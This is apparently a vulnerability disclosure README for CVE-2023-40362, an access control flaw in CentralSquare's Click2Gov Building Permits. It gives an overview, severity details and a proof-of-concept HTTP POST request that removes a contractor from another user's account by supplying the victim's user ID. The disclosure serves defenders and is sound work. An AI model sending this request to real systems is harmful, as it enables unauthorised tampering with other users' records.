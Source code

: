 # CVE-2023-40362
[CVE-2023-40362](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-40362) vulnerabilitiy details and proof-of-concept.

# Overview
An access control vulnerability in Click2Gov BP at the URI `/Click2GovBP/mastercontractorlist.html` leads to the ability for authenticated users to delete the 
contractors from the accounts of other users with the victim's user ID and the information of the contractor to delete.

This is caused by a failure of the web application to verify that the user is authorized to delete the contractor from the account of which the user ID is 
specified.

**Vendor**: [CentralSquare](https://www.centralsquare.com/)

**Reported By**: Ally Petitt

**Discovered**: June 13, 2023

**Affected Products**: Click2Gov Building Permits (BP)

**Affected Releases**: Before October 2023

**CVSS v3**: 5.4 - Moderate (AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:L)



# Proof of Concept (PoC)
The HTTP POST request shown below can be made in order to delete a contractor from a victim's account. The CSRF token must be valid for this to work.

```
POST /Click2GovBP/mastercontractorlist.html HTTP/1.1
Host: <HOST>
Cookie: welcome=true; JSESSIONID=<SESSION_ID>;
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: <USER_AGENT>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

contractorList%5B0%5D.number=<CONTRACTOR_NUMBER>&contractorList%5B0%5D.type=<CONTRACTOR_TYPE>&contractorList%5B0%5D.name=<CONTRACTOR_NAME>&submitRemoveContractor=true&confirmRemoveContractor=true&userId=<USER_ID>&OWASP_CSRFTOKEN=<CSRF_TOKEN>
```
